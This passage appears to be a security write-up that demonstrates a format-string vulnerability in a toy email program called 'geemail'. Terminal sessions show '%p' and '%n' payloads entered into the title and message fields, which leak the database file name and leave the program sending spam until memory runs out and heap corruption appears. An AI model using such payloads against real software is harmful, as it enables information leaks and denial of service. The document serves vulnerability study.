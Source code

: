     Number of Emails: 3
    Please enter 1 if you want to read, enter 0 if you want to write, or 2 to quit: 0
    Please enter your recipient: teddy
    Please enter your title: %p%p%p%p%p%n %p%p%p%p%p%n
    Please enter your secret passphrase: secret
    Enter the message
    hello %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n
    Your Message: hello %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n
    Message Sent :)
    Please enter 1 if you want to read, enter 0 if you want to write, or 2 to quit: 2

    $ ./geemail
    Please enter 0 for register or 1 for login: 1
    Please enter your username: teddy
    Please enter your password: password
    You logged in successfully!
    ID = 1
    SENDER = alp
    TITLE = Hello Teddy

    Number of Emails: 3
    Please enter 1 if you want to read, enter 0 if you want to write, or 2 to quit: 1
    Please enter an email id: 49
    Please enter a secret passphrase: secret
    Your message: hello %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%n %p%p%p%p%p%ngmail.db

    Here we can see gmail.db is revealed which is the actual name for the database file. Each run may reveal other informaion, such as the current directory of the application, etc. At this point, the application is in a state that can't process the string format variables properly. If you input any character when asked to read, write, or quit, that user will send massive spam emails until memory is exhausted and program crashes. The database file increases in size quite quickly.

    Please enter 1 if you want to read, enter 0 if you want to write, or 2 to quit: a
    Please enter your recipient: Please enter your title: Please enter your secret passphrase: Enter the message
    Your Message:
    Message Sent :)
    Please enter 1 if you want to read, enter 0 if you want to write, or 2 to quit: Please enter an email id: Please enter a secret passp��hǱ�]`:Z�#��essage: \^k
                 b!é��M�|�(�ްb��!�H:R߅�]l Ԏ�
                                           �ٶe��G��r@&�@�+�\���\Jgmail.db
    Please enter 1 if you want to read, enter 0 if you want to write, or 2 to quit: Please enter your recipient: Please enter your title: Please enter your secret passphrase: Enter the message
    Your Message:
    Message Sent :)
    Please enter 1 if you want to read, enter 0 if you want to write, or 2 to quit: Please enter an email id: Please enter a secret passp��hǱ�]`:Z�#��essage: \^k
                 b!é��M�|�(�ްb��!�H:R߅�]l Ԏ�
                                           �ٶe��G��r@&�@�+�\���\J
    Message Sent :)
    Please enter 1 if you want to read, enter 0 if you want to write, or 2 to quit: Please enter your recipient: Please enter your title: Please enter your secret passphrase: Enter the message
    Your Message:
    geemail(83110,0x7fff7b3b1000) malloc: *** error for object 0x103001560: incorrect checksum for freed object - object was probably modified after being freed.
    *** set a breakpoint in malloc_error_break to debug
    [New Thread 0x3583 of process 83110]
